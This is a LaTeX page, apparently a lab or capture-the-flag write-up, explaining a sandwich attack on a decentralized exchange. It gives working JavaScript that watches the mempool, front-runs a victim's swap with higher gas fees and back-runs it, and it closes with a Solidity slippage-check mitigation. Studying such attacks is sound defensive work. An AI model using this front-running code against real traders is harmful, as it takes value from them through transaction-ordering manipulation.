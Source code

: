 \documentclass[12pt]{article}
\begin{document}
\noindent
The sandwich attack consists of three steps:

\begin{enumerate}
\item \textbf{Frontrun}: Buy tokens (swap ETH for USDC) before the victim's transaction, increasing the price
\item \textbf{Victim transaction}: Let the victim's swap execute at the now-worse price
\item \textbf{Backrun}: Sell the tokens (swap USDC back to ETH) after the victim's transaction, when the price is even higher
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// See the mempool
const pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
const targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  simpleDEX,
  "ethToUsdc"
);

// Calculate ETH to use (all player's ETH minus some for gas)
const gasBuffer = ethers.parseEther("0.01"); // Keep 0.01 ETH for gas costs
const frontrunAmount = PLAYER_INITIAL_ETH - gasBuffer;
console.log(
  `\nExecuting frontrun: swapping ${ethers.formatEther(
    frontrunAmount
  )} ETH for USDC...`
);

const frontrunTx = await simpleDEX.connect(player).ethToUsdc({
  value: frontrunAmount,
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + BigInt(1000000000), // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + BigInt(1000000000), // +1 Gwei
});

mine(1);

// Backrun the transaction
const backrunAmount = await usdcToken.balanceOf(player.address);
await usdcToken.connect(player).approve(simpleDEX.target, backrunAmount);
await simpleDEX.connect(player).usdcToEth(backrunAmount);
\end{verbatim}
\end{minipage}

\subsubsection*{Possible Mitigation}

DEXs should support slippage tolerance to protect against significant price movements. If the price moves beyond the tolerance, the transaction reverts.

\begin{verbatim}
function ethToUsdcWithSlippage(uint minUsdcOut) external payable {
    uint usdcBought = calculateOutput(msg.value);
    require(usdcBought >= minUsdcOut, "Slippage exceeded");
    // Execute the swap
}
\end{verbatim}
\end{document}
